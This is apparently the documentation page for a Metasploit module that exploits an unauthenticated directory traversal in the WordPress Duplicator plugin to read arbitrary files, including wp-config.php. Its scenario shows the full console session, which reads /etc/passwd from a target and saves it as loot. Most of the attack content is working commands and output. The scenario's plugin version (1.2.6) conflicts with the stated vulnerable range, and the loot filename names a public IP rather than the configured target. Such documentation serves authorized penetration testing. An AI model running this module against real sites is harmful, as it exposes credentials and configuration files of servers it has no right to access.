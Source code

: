 ## Vulnerable Application
The issue is being actively exploited, and allows attackers to download arbitrary files, such as the `wp-config.php` file.
This module exploits an unauthenticated directory traversal vulnerability in WordPress plugin "Duplicator" plugin version 1.3.24-1.3.26,
allowing arbitrary file read with the web server privileges.

Changelog : https://snapcreek.com/duplicator/docs/changelog/

Vulnerable version: [duplicator.1.3.24.zip](https://downloads.wordpress.org/plugin/duplicator.1.3.24.zip),
[duplicator.1.3.26.zip](https://downloads.wordpress.org/plugin/duplicator.1.3.26.zip)

## Verification Steps

1. Start `msfconsole`
1. `use auxiliary/scanner/http/wp_duplicator_file_read`
1. Set the `RHOSTS`
1. Set the `RPORT`
1. Run the exploit: `run`


## Options

## Scenarios


Ubuntu 20.04 running WordPress 5.6, Duplicator 1.2.6

```
msf5 > use auxiliary/scanner/http/wp_duplicator_file_read
msf5 auxiliary(scanner/http/wp_duplicator_file_read) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf5 auxiliary(scanner/http/wp_duplicator_file_read) > set rport 8080
rport => 8080
msf5 auxiliary(scanner/http/wp_duplicator_file_read) > set FILEPATH /etc/passwd
FILEPATH => /etc/passwd
msf5 auxiliary(scanner/http/wp_duplicator_file_read) > set DEPTH 5
DEPTH => 5

msf5 auxiliary(scanner/http/wp_duplicator_file_read) > run

[*] Downloading file...

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
uuidd:x:105:110::/run/uuidd:/usr/sbin/nologin
avahi-autoipd:x:106:111:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin
usbmux:x:107:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
dnsmasq:x:108:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
rtkit:x:109:114:RealtimeKit,,,:/proc:/usr/sbin/nologin
lightdm:x:110:115:Light Display Manager:/var/lib/lightdm:/bin/false
cups-pk-helper:x:111:118:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin
speech-dispatcher:x:112:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false
whoopsie:x:113:119::/nonexistent:/bin/false
kernoops:x:114:65534:Kernel Oops Tracking Daemon,,,:/:/usr/sbin/nologin
saned:x:115:121::/var/lib/saned:/usr/sbin/nologin
pulse:x:116:122:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
avahi:x:117:124:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
colord:x:118:125:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
hplip:x:119:7:HPLIP system user,,,:/var/run/hplip:/bin/false
debian-tor:x:120:126::/var/lib/tor:/bin/false
iodine:x:121:65534::/var/run/iodine:/usr/sbin/nologin
thpot:x:122:65534:Honeypot user,,,:/usr/share/thpot:/dev/null
postfix:x:123:128::/var/spool/postfix:/usr/sbin/nologin
nm-openvpn:x:124:130:NetworkManager OpenVPN,,,:/var/lib/openvpn/chroot:/usr/sbin/nologin
statd:x:125:65534::/var/lib/nfs:/usr/sbin/nologin
sshd:x:126:65534::/run/sshd:/usr/sbin/nologin
nm-openconnect:x:127:131:NetworkManager OpenConnect plugin,,,:/var/lib/NetworkManager:/usr/sbin/nologin
geoclue:x:128:135::/var/lib/geoclue:/usr/sbin/nologin
nxpgsql:x:1001:1001:NeXpose PostgreSQL User:/opt/rapid7/nexpose/nsc/nxpgsql:/bin/sh
mysql:x:129:136:MySQL Server,,,:/nonexistent:/bin/falselsadm:x:999:999:lsadm:/:/sbin/nologin
jenkins:x:131:138:Jenkins,,,:/var/lib/jenkins:/bin/bash
libvirt-qemu:x:64055:139:Libvirt Qemu,,,:/var/lib/libvirt:/usr/sbin/nologin
libvirt-dnsmasq:x:132:142:Libvirt Dnsmasq,,,:/var/lib/libvirt/dnsmasq:/usr/sbin/nologin
test:x:1002:1003:,,,:/home/test:/bin/bash
ftp:x:133:143:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
gdm:x:134:144:Gnome Display Manager:/var/lib/gdm3:/bin/fals

[+] File saved in: /root/.msf4/loot/20201211005722_default_13.250.118.98_duplicator.trave_383073.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

